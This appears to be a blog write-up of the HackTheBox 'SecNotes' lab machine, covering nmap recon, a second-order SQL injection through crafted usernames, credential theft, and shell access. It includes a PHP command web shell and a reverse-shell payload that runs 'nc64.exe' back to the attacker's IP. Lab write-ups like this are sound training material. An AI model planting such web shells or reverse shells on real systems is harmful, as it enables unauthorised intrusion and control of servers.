

<!--more-->

***

# External Recon

As usual we start with our nmap scan and see what we are dealing with:


nmap -sC -sV 10.10.10.97

PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
445/tcp open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h40m00s, deviation: 4h37m08s, median: 0s
| smb-os-discovery:
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2019-01-04T05:21:46-08:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-01-04 14:21:48
|_  start_date: N/A


So Port 80 & 445 are open. While I explored those, I scanned all TCP Ports to see if
there's more to find. Nmap by default just checks the Top1000.

Spoileralert: I found Port 8808 to be open also.

# Explore

##### Port 445
Nothing too interessting.

##### Port 8808
Just the default IIS Webserver Page. Nothing fancy here.

##### Port 80
We find a login page. I first tried to login with the usual supects.


admin:admin
admin:toor
root:toor
etc.


No luck so far. But if you look closely, there's an option to register an account.
Let's try that.

That worked - let's login.

We see a page where we are able to take up to 3 notes and store them and also delete them.
Also we get another piece of intel. Can you spot it? Take your time and try to find it.

Correct it's the name "tyler" in the email-address. Perhaps this could be usefull later.

I checked all the functions the site had to offer, and noticed this URL when deleting a note:

`http://10.10.10.97/home.php?action=delete&id=31`

We can see the "home.php" script has a parameter to offer. I started playing with it.
With "wfuzz" to find other parameters but had no luck finding a vulnerability there.

So I started up "gobuster" and found a file called "db.php". Based on the name "db" is assumed
that all our notes are stored in a database.

As there was nothing else I could find, I thought maybe some kind of "SQLi" is possible.
Although I am not very experienced with "SQLi" I jumped right in and fired up "SQLMap".

I won't give you all the things I tried. I spent at least and hour or two but nothing came up.
So I was stuck. After checking the HackTheBox forums for a hint, someone mentioned that his type
of vulnerability was part of a retired box called "nightmare".

I had the video-solution of "nightmare", created by the awesome guy "ippsec", already downloaded on my laptop.
So I watched it again just to learn it was indeed about "SQLi". Specificaly "2nd order SQLi".
You should watch (and subscribe!) his video for a better explaination on this type of "SQLi".



So let's try some handcrafted "SQLi".

# Weaponize
So, we could login with our regular user. First, let's logout and create another user like so:

After logging in we get an error!

Which means, something broke because of the single-quote we had in our username. Let's try to fix that.
I commented everything out after the quote.

Nice - we are able to login again. But wait, something is wrong here:

We can see the note from the legitmate "x41" User. We can read other users content!

This works because the "SQL" query to get the notes from the database looks probably like this:

`select * from NOTES where USERNAME like '$User'`

Keep those two single-quotes in mind.

Our "SQLi" did this to the statement:

`select * from NOTES where USERNAME like 'x41'-- -'`

As you can see, there are now three single-quotes. The 2nd one was part of the name we
provided. But as we commented the original one out, we have now a valid statement with
the already existing useraccount "x41" (without the single-quote).

Nice! You know what we need to do next, do you?! ;)

# Exploit
Let's create another user, hmm, let's target "tyler" as he seems to be an admin of some sorts.

And after logging in we find something nice in his notes. :)

Now we can try to connect to the SMB share with those credentials.

And there's the webroot the IIS Server.

The note says, this is supposed to be the new website.
The old one is based on "php". Perhaps PHP is working on there too?

I uploaded a simple "php" command-shell and tried it.


<?php
if (isset($_REQUEST['fexec'])) {
  echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
};
?>


=) Let's get a reverse-shell!

At first I used "nc.exe", but soon remembered it's a Windows 10 box, running a 64Bit OS.
If you start a 32Bit executable on a 64Bit OS, you get a different environment. A different registry and
some programs won't work. So I switched to "nc64.exe".


<?php
  echo "Cyber PewPew";

  $last_command = system('nc64.exe 10.10.15.140 4445 -e cmd.exe',$ret);

  echo $last_command;

  echo "\n ------------------------------- \n";
  echo $ret;
?>


We've got a shell AND....

# User Flag

...sure enough "user.txt"! :)


C:\inetpub\new-site>whoami
whoami
secnotes\tyler

C:\Users\tyler\Desktop>dir
 Directory of C:\Users\tyler\Desktop

08/19/2018  08:25 AM                34 user.txt



# Internal Recon
While searching around on the box to find clues on the next step to `root.txt`,
I noticed an "Ubuntu" archive and a "Distros" folder. I remember wondering "Why is this stuff here?"
But didn't put 1 + 1 together.

I had to go back to the forums again to seek out for help. Where someone said:

"What OS Version have you found - there's a specific new feature in this."

Because I couldn't think about anything from the top of my head, I googled for the releasenotes.
And then it just starred at me:

<b>"Windows Subsystem for Linux"</b>

I spent about an hour or so just to learn about this feature, and the tools around it.
After that I used "wsl.exe" and "wsl.config" to start up the preconfigued "Ubuntu" Machine.

Hoping for a quick win for root. Perhaps I can read the Windows filesystem from it without
"ACLs" messing with me?

# Privilege Escalation
"Sadly" that wasn't possible.
I had to search a lot, after a little nudge I headed into the right direction.
I just failed to stick to my routine. I guessed my next step instead of doing internal recon properly.

If I had done it, I immediately would have tried this:

# Root Flag
From here it just was connecting to the SMB share to get the root flag.
I didn't bother getting a propper shell as admin, which I leave up to the reader how
to do that. ;) (Hint: Impacket)

# Lessons Learned
First, my "Enumeration" failed me and I didn't followed my initial thoughts about the Ubuntu folders.
On the other hand I got the "SQLi" right, found the hint about "tyler" right away. And I learned
about "wsl". Which is a difficult thing to monitor for "blueteams".

While researching this feature I discovered this video from Checkpoint.
I recommend watching it.



 
That's it for today. Have a nice one!
 
x41